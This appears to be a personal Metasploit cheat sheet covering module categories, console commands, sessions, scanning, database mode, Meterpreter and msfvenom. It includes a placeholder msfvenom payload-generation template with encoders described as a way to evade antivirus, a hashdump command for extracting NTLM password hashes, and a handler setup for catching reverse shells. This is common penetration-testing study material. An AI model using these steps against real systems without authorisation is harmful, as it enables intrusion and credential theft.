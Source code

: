 <details>
<summary>
  
# Framework Organisation  
</summary>

**Modules** \
The modules are located at /opt/metasploit-framework/embedded/framework/modules

**Auxiliary:**
- Scanners
- crawlers
- fuzzers

**Encoders:** 
- Encode exploit and payload to trick signature-based antivirus

**Evasion:**
- Direct evasion attempts of antivirus software

**Exploits**
- Neatly organised by target

**NOP's**
- No operations, used as buffers to achive consisten payload size

**Payloads**
- Adapters: Conver payloads into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
- Singles: Self-contained Payloads(add user, lauch calc.exe).
- Stagers: Form a connection to metasploit to download additional payloads(stages).
- Stages: Are loaded by the stager. Allows to use larger payload size.

**Post**
- Post-exploitation
</details>

# Basic Commands
`msfconsole` - Start metasploit console:  \
`help <command>` - Help  \
`history` - Show command history:  \
`show` - List modules and alike. Use `show -h` to see what can be showed \
`info <module>` - Show information about module  \
`search <what you want>` - Search \
`exit` - close metasploit

You can use many normal linux commands like in a linux terminal: `ls, cat, clear, ...`

# Contexts:
`use <context, e.g. exploit>` - Entering a context  \
`back` - Exit context:  \
`info` - Info about context:  \
`show options` - List all available options(parameters)  \
`set <parameter> <value>` - Sets `<parameter>` to `<value>` \
`unset <parameter>` \
`unset all` - Unsets all parameters in the current context \
`setg` - Set parameter to default value across all contexts until you exit metasploit \
`unsetg` \
`exploit` - Run the exploit, use `-z` to run in background \
`check` - Check if target is vulnerable without exploiting. Not supported by all modules.

## Exploits
`show payloads` - show available payloads for the exploit

## Sessions:
Once a vulnerabilitay has successfully been exploited, a session is started.

`exploit -j` - launches the module as job in the background \
`background` - Sends the session to the background and presents the context prompt again \
`CTRL + Z` - Same as Background \
`sessions` - List sessions \
`sessions -i <session-number>` - Interact with the session

## Scanning
There are many many scanners use `search scanner <what_you_need>`
### UDP
**udp_sweep** \
`run` 

### SMB
**smb_enumshares** \
**smb_version**

# Database mode
`systemctl start postgresql` \
`msfdb init` \
`mfsconsole` \
`db_status` 

## Workspaces
`workspace -a` - add new workspace \
`-d` - delete \
`-h` - lists options \
`help` - lists the db backend commands \
`db_nmap` - runs nmap but stores results in db \

# Meterpeter
`help` - show commands \
`hashdump` - prints ntlm password hashes for all users it can find

# Msfvenom
msfvenom replaced msfpayload and msfencode and allows you to generate payloads. \
`msfvenom -p <payload> <options>` - general syntax \
`msfvenom -p <OS/arch/shell/type> -f <format> -o <file_name> -e <encode_format> LHOST=<ip> LPORT=<port>` - example \
`-e <encode format>` - encode a payload. There are a variety of encoders available \
`-p <payload>` - select the payload \
`-f <format>` - output format. E.g. elf, raw, base64, exe, php, py, asp, ... \
`-o` - output file \
`LHOST=<ip>` - local ip \
`LPORT=<port>` - local port

## Staged vs Stageless payloads
`shell_<type>` - stageless \
`shell/<type>` - stages

## Handler
A handler catches an incomming connection from a payload (like a reverse shell) \
`use exploit/multi/handler` - can be used to catch incoming connections. Don't forget to set LHOST and LPORT. \





